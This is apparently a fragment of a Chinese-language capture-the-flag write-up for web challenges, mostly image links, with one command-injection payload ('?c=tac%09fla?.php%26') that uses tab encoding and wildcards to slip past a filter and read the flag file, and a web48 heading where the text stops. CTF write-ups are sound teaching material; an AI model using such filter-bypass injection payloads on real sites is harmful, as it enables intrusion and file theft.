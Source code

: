 ![image-20240120130209384](image/image-20240120130209384.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag

![image-20240120130307422](image/image-20240120130307422.png)

------

#### web48

分析
